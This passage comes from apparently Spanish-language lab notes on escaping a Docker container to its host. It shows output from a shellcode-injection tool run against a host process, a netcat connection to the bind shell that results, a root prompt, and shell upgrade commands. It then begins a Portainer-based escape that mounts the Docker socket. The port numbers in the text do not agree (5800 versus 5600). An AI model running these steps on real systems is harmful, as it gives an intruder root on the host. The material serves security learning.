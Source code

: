 **Salida**
```bash
/infect 12170
+ Tracing process 12170
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7b183471b494
+ Setting instruction pointer to 0x7b183471b496
+ Run it!
```
**Esto lo que hizo es abrirnos el puerto "5800" en la máquina "host" y ahora con `netcat` con, `hostname -I` vemos mi "IP" que es la `172.17.02  y la del contenedor que corresponde a la máquina host es la 172.17.0.1 y me conecto al puerto "5600" que lo abre temporalmente**:

```bash
nc 172.17.0.1 5600
```
*Ahora estoy conectado* verifico haciendo `whoami`

```bash
root@4146294e0d0d:/tmp# nc 172.17.0.1 5600
whoami
root
hostname -I
192.168.0.121 172.17.0.1 2800:810:50f:a2f1:9573:c506:71b4:2c37 fdaa:bbcc:ddee:0:a00:27ff:fe1c:4fb1 2800:810:50f:a2f1:a00:27ff:fe1c:4fb1 
```
*Estoy en la maquina el host real* hacemos un tratamiento de tty
```bash
script /dev/null -c bash
# CTRL + z
stty raw -echo; fg
reset xterm
```

### Tercer forma de escapar a la maquina host:
*Borramos todo de lo que hicimos anteriormente*
```bash
exit
docker rm $(docker ps -a -q) --force
docker rmi $(docker images -q)
```

Que es `Portainer` es una herramienta de gestíon de contenedores que proporciona una interfaz gráfica de usuario (GUI) fácil de usar para administrar **contenedores Docker y Kubernetes**

**En la maquina host de ubuntu server vamos hacer**:
```bash
docker run -dit -p 8000:8000 -p 9000:9000 --name portainer --restart=always -v /var/run/docker.sock:/var/run/docker.sock -v /docker/portainer/data:/data portainer/portainer-ce
```

*Ahora entramos al navegador con el puerto "9000" de la maquina ubuntu server lo averiguamos con hostname -I* por ejemplo 192.168.0.121:9000


